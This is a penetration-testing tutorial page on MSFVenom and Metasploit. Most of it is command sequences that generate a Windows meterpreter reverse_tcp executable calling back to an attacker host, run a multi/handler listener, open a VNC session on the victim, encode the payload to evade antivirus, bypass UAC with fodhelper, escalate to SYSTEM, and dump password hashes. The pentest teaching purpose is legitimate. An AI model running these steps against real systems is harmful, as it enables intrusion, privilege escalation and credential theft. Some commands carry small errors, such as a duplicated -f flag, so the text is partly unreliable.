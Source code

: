 ```yaml
---
path: "/tutorials/securitypentesttools/msfvenom"
date: "2020-04-06"
title: "MSFVenom"
---
```


MSFVenom is a tool used to create malicious payloads for the Metasploit framework. The Metasploit framework is a tool for developing and executing remote exploits on a vulnerable target. Tools within the framework allow you to complete various stages of a penetration test.

####Establishing a VNC Session
MSFVenom can be used to create lots of different types of payload. One of these can be used to establish a VNC session on a remote host. Virtual Network Computing (VNC) is a system that allows remote graphical connections to a host, this allows you to use the device remotely as though you were sitting in front of it. There are a number of VNC variants offering different features. Establishing a malicious VNC session on a target machine gives you a good foothold in a target network.

Generating a payload is simple enough:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<attackerIP> LPORT=<myPort> -o /root/Desktop/evil.exe
```
* *-p* - Specifies the payload we'd like to use. There are a large number of payloads to choose from.
* *--platform* - This is where you choose the platform the payload is for. Use the man page to discover the available payloads.
* *-a* - Architecture the exploit will run on.
* *-f* - The format of the output file
* *LHOST* - For this exploit this is how you specify the IP address of the listening machine
* *LPORT* - Similar to the above this is how you specify the port the listener will listen on.
* *-o* - The name and location of the output file.

This will generate an exe file that can run on Windows. 

We'll now start the listener on our attacker machine.

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
exploit
```

The listener is now setup.

During a normal penetration test you would have to find a way to get the file onto a target machine, this is the tricky part but I won't be telling you how to do it.

Once the user runs your exe file the system will be compromised. You'll see that the listener opens a meterpreter session and displays the IP and port of the listener and the victim.

Now we can use the established connection to tamper with the victim machine.

```bash
session -i 1
sysinfo
run vnc
```
* *session -i 1* - This ensures we are using session 1.
* *sysinfo* - Displays basic information about the system the session is open on.
* *run vnc* - Opens up a VNC session on the infected machine. Once this command is run you will see a screen appear showing the user's desktop.

**N.B** The exploit that we have created using MSFVenom will likely be caught by most standard antivirus tools. The are methods to reduce the chance of detection, but I won't go into detail for this section.




####Escalating Privileges
Escalating privilege is an essential part of any penetration test. This allows you to compromise a normal user account and then increase your level of privilege, enabling you to perform further actions on your victim's network/device.

To generate the exploit generate our payload we'll use the following command:
```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" -f exe LHOST=<attackerIP> -f Desktop/escalation.exe
```

This is similar to the command we used to create the previous payload with a few key differences.

* *-e* - Sets the encoding on the output file. This can help to avoid detection by antivirus, however, a lot of scanners will still detect this.
* *-b* - You can provide a list of characters to avoid.
* *-f* - Where you're outputting the file.

Start the listener on our attacker machine.

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
exploit -j -z
```

Again you'll have to figure out how to get this onto the target machine. Once the target has run the exe you'll have a session established with the target. Make the session interactive and grab the current user's username.

```bash
session -i 1
getuid
```

Depending on the user's privilege level you won't be able to perform administrator type actions. We now want to escalate our privileges so that we 'own' the system.

```bash
background
use exploit/windows/local/bypassuac_fodhelper
set SESSION 1
```

* *background* - Sends the current session to the background so you can perform the next tasks.
* *use exploit/windows/local/bypassuac_fodhelper* - Sets the exploit you want to use.
* *set SESSION 1* - Sets the SESSION variable for the exploit. **N.B.** Different exploits use different variables, to see the available options and a description use the `show options` command.

```bash
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
set TARGET 0
exploit
```

You should now have a new meterpreter session open.

```bash
getsystem -t 1
```
This should have escalated your privileges to the 'SYSTEM' account. If you use `getuid` you should see the username is now SYSTEM.

We can now dump the password hashes of users on the system as well as password hints.

```bash
run post/windows/gather/smart_hashdump
```

If this command works then you have successfully escalated you privilege. Well done!